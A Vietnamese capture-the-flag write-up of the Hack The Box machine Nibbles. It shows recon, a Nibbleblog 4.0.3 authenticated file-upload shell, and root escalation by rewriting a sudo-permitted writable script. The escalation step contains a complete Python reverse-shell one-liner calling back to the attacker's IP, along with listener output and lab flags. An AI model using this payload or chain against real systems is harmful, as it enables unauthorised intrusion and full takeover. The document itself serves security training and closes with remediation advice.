





# Thông tin máy 


>[!NOTE]
> Mức độ: Dễ 
> Url: https://app.hackthebox.com/machines/Nibbles
> Nền tảng: Linux
> Mô tả: Nibbles là một máy khá đơn giản, tuy nhiên, với việc tích hợp danh sách đen đăng nhập, việc tìm kiếm thông tin đăng nhập hợp lệ trở nên khó khăn hơn đáng kể. May mắn thay, tên người dùng có thể được liệt kê và việc đoán đúng mật khẩu không mất nhiều thời gian đối với hầu hết mọi người.

# Recon

## Port Scan

> Liệt kê các cổng dịch vụ mở bằng nmap 

```bash
nmap -sSVC -Pn nibbles.htb
```

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-14 10:02 -0400
Nmap scan report for nibbles.htb (10.129.55.97)
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> Kết quả có 2 cổng mở chỉ có dịch vụ web là đáng chú ý 

| Port | Service | Version                         |
| ---- | ------- | ------------------------------- |
| 22   | SSH     | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 |
| 80   | HTTP    | Apache httpd 2.4.18             |
## Web Service 

> Đọc mã nguồn trang chính thu được 1 thư mục ẩn /nibbleblog



### Phân tích /nibbleblog

> Liệt kê thư mục ẩn bằng feroxbuxter 


```bash
feroxbuster -u http://nibbles.htb/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 100 -d 2 -x php,html,txt,js,css -C 404,500
```

```bash
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://nibbles.htb/nibbleblog
 🚩  In-Scope Url          │ nibbles.htb
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 💢  Status Code Filters   │ [404, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt, js, css]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      315c http://nibbles.htb/nibbleblog => http://nibbles.htb/nibbleblog/
200      GET      288l     2061w    18787c http://nibbles.htb/nibbleblog/languages/vi_VI.bit
200      GET      326l     1740w    17135c http://nibbles.htb/nibbleblog/languages/en_US.bit
200      GET      288l      905w    16495c http://nibbles.htb/nibbleblog/languages/zh_CN.bit
200      GET      288l     1797w    18351c http://nibbles.htb/nibbleblog/languages/it_IT.bit
200      GET      287l     1754w    17569c http://nibbles.htb/nibbleblog/languages/nl_NL.bit
200      GET      288l      921w    16627c http://nibbles.htb/nibbleblog/languages/zh_TW.bit
200      GET      288l     1575w    17763c http://nibbles.htb/nibbleblog/languages/de_DE.bit
200      GET      288l     1748w    17998c http://nibbles.htb/nibbleblog/languages/pt_PT.bit
200      GET      288l     1645w    18190c http://nibbles.htb/nibbleblog/languages/pl_PL.bit
200      GET      288l     1810w    18341c http://nibbles.htb/nibbleblog/languages/es_ES.bit
200      GET      305l     1646w    25081c http://nibbles.htb/nibbleblog/languages/ru_RU.bit
200      GET       11l       13w      402c http://nibbles.htb/nibbleblog/sitemap.php
200      GET        8l       15w      302c http://nibbles.htb/nibbleblog/feed.php
301      GET        9l       28w      325c http://nibbles.htb/nibbleblog/languages => http://nibbles.htb/nibbleblog/languages/
301      GET        9l       28w      321c http://nibbles.htb/nibbleblog/admin => http://nibbles.htb/nibbleblog/admin/
301      GET        9l       28w      323c http://nibbles.htb/nibbleblog/content => http://nibbles.htb/nibbleblog/content/
200      GET       88l      174w     1622c http://nibbles.htb/nibbleblog/update.php
200      GET        1l       11w       78c http://nibbles.htb/nibbleblog/install.php
200      GET      146l     1032w    82541c http://nibbles.htb/nibbleblog/admin/templates/easy4/css/img/grey.png
301      GET        9l       28w      323c http://nibbles.htb/nibbleblog/plugins => http://nibbles.htb/nibbleblog/plugins/
200      GET       61l      168w     2987c http://nibbles.htb/nibbleblog/index.php
200      GET      288l     1942w    19170c http://nibbles.htb/nibbleblog/languages/fr_FR.bit
301      GET        9l       28w      322c http://nibbles.htb/nibbleblog/themes => http://nibbles.htb/nibbleblog/themes/
200      GET       27l       96w     1401c http://nibbles.htb/nibbleblog/admin.php
[####################] - 2m    160110/160110  0s      found:25      errors:2      
[####################] - 2m    159504/159504  1228/s  http://nibbles.htb/nibbleblog/ 
[####################] - 8s    159504/159504  19926/s http://nibbles.htb/nibbleblog/admin/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 5s    159504/159504  33334/s http://nibbles.htb/nibbleblog/languages/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 4s    159504/159504  40066/s http://nibbles.htb/nibbleblog/plugins/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 3s    159504/159504  61847/s http://nibbles.htb/nibbleblog/themes/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 2s    159504/159504  76981/s http://nibbles.htb/nibbleblog/content/ => Directory listing (add --scan-dir-listings to scan)
```

> Phân tích các đường dẫn thư mục ẩn 

* /update.php biết được CMS máy mục tiêu là Nibbleblog 4.0.3



- /content/private/users.xml thu được username "admin"


### Trang đăng nhập

> Đăng nhập với username "admin" nhưng Nibbleblog có thiết lập backlist nên không thể brute-force được bằng hydra 
> Sau khi phỏng đoán mật khẩu xác định thông tin xác thực là admin:nibble

# Exploit

> CMS Nibbleblog tồn tại lỗ hổng shell upload 
> Mô tả:
> - Sau khi xác thực 
> - Khi tải lên các tệp hình ảnh thông qua plugin "My image" – vốn được tích hợp sẵn trong NibbleBlog – phiên bản NibbleBlog 4.0.3 vẫn giữ nguyên phần mở rộng gốc của tệp. Do không có bước kiểm tra phần mở rộng hay định dạng thực tế của tệp, kẻ tấn công có thể tải lên các tệp PHP và thực thi mã độc.
> - https://packetstorm.news/files/id/133425
> - https://www.exploit-db.com/exploits/38489
> - https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload/

> Tải lên File php-reverse-shell.php tạo reverse shell



> Truy cập /content/private/plugins/my_image/ có file image.php chính là file reverse shell 



> Mở cổng lắng nghe kết nối từ đó có được shell trên máy mục tiêu

```bash
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.15.211] from (UNKNOWN) [10.129.55.101] 56054
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 10:58:04 up 36 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

> User FLag

```
1c4dfb1abefe46c0ef40c325c31da957
```

# Privilege Escalation

> Liệt kê các lệnh nibbler có thể chạy với sudo 
> `/home/nibbler/personal/stuff/monitor.sh` có thể chạy với quyền root mà không cần mật khẩu, file monitor.sh có quyền ghi 
> Chỉnh sửa file monitor.sh tạo reverse shell với quyền root hoặc chỉnh sửa các file xác thực 
 
```

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ ls -al
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Oct 14 10:22 user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -al
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh    
```

> Thiết lập nội dung file monitor.sh thành mã tạo reverse shell

```bash
#!/bin/bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.211",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'

```

> Chạy mã với quyền root và mở cổng lắng nghe

```bash
sudo -u root /home/nibbler/personal/stuff/monitor.sh
```

```bash
└─$ nc -lnvp 4445                 
listening on [any] 4445 ...
connect to [10.10.15.211] from (UNKNOWN) [10.129.55.101] 51072
# whoami
whoami
root
# id
id
uid=0(root) gid=0(root) groups=0(root
```

- Root Flag
```bash
675c0feb1d7511a2faf2aefce0de65cc
```

# Kết luận 

* Máy này ở mức độ dễ 
* Khai thác lỗ hổng File Upload của 1 CMS để xâm nhập hệ thống 
* Leo thang đặc quyền do thiết lập quyền cao cho người dùng thường 
* Cách vá lỗ hổng :
	 + Cập nhật phiên bản mởi của CMS hoặc lọc các file tải lên có thể thực thi 
	 + Tối thiểu hóa quyền cho người dùng thường trên hệ thống 